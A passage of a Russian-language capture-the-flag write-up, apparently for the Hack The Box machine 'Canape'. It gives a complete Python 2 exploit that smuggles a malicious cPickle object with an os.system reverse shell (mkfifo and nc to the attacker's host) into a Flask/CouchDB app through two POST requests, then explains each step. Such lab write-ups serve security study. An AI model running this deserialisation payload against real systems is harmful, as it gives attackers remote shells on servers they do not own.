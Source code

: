 ### Эксплойт
Писать скрипт для эксплойта "вслепую" — довольно неудобная затея, поэтому я устанавливал Flask и CouchDB на локальную машину и тестировал работу вредоноса с бо́льшим комфортом. Предвидя возможные вопросы, отвечу сразу: использую модуль *cPickle* (а не *pickle*) и *python2* (а не *python3*), потому что сервер использует *cPickle* (а не *pickle*) и *python2* (а не *python3*) :smiley:

Должно получиться что-то вроде этого:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Usage: python canape_shell.py

import cPickle, hashlib, requests

LHOST = '10.10.14.14'
LPORT = '31337'
RHOST = '10.10.10.70'
RPORT = '80'

CHAR = 'krusty'


class Payload(object):
	def __init__(self, cmd):
		self.cmd = cmd
	def __reduce__(self):
		import os
		return (os.system, (self.cmd,))


reverse_sh = 'c=%s;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f' % (CHAR, LHOST, LPORT)
evilpickle = cPickle.dumps(Payload(reverse_sh))
sep_index = evilpickle.find(CHAR) + len(CHAR) + 1

data = {'character': evilpickle[:sep_index], 'quote': evilpickle[sep_index:]}
r = requests.post('http://' + RHOST + ':' + RPORT + '/submit', data=data)
print('POST {} {} {}'.format(r.status_code, r.url, data))

data = {'id': hashlib.md5(evilpickle).hexdigest()}
r = requests.post('http://' + RHOST + ':' + RPORT + '/check', data=data)
print('POST {} {} {}'.format(r.status_code, r.url, data))
```

Что здесь происходит:
  1. Реверс-шелл стандартный для *bash*'а за тем исключением, что в начале было прописано имя персонажа (`c=krusty`), чтобы обойти проверку на сервере.
  2. Создается объект класса `Payload`, с реверс-шеллом в качестве инициализационного значения. Класс `Payload` позволяет генерировать полезные нагрузки, которые будут выполнены интерпретатором при десериализация упакованных данных за счет перегрузки метода `__reduce__()`.
  3. Вычисляется индекс разбиения сериализованных данных: по левую сторону — заглушка для проверяющего механизма сайта (переменная с именем персонажа), по правую — то, что нужно непосредственно выполнить.
  4. Подготавливается и отправляется первый POST-запрос, создающий бэкдор.
  5. Подготавливается и отправляется второй POST-запрос, провоцирующий запуск бэкдора.
